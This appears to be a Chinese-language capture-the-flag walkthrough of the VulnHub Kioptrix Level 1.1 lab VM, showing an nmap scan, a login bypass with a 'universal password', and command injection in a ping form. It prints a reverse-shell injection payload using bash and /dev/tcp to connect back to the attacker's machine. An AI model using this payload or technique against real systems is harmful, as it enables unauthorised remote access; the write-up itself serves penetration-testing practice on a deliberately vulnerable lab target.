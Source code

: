 # Kioptrix: Level 1.1

下载地址：

```
https://download.vulnhub.com/kioptrix/Kioptrix_Level_2-update.rar
```

## 实战操作

netdiscover找到靶场IP：`192.168.0.10`

```
┌──(root💀kali)-[/tmp]
└─# nmap -sV -p1-65535 192.168.0.10                                                                            255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-11 23:22 EST
Nmap scan report for 192.168.0.10
Host is up (0.0012s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind    2 (RPC #100000)
443/tcp  open  ssl/https?
615/tcp  open  status     1 (RPC #100024)
631/tcp  open  ipp        CUPS 1.1
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 00:0C:29:C9:8D:0E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
                                                                
```

### HTTP

浏览器访问80端口，看到一个登录界面。

![](<../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

用万能密码登录进去

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

登录进去之后，发现是一个ping IP功能，看到这个就可以知道有命令注入漏洞。

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png>)

回显权限是apache

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)

配置反弹shell，payload：`0 | bash -i >& /dev/tcp/192.168.0.8/7777 0>&1`

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

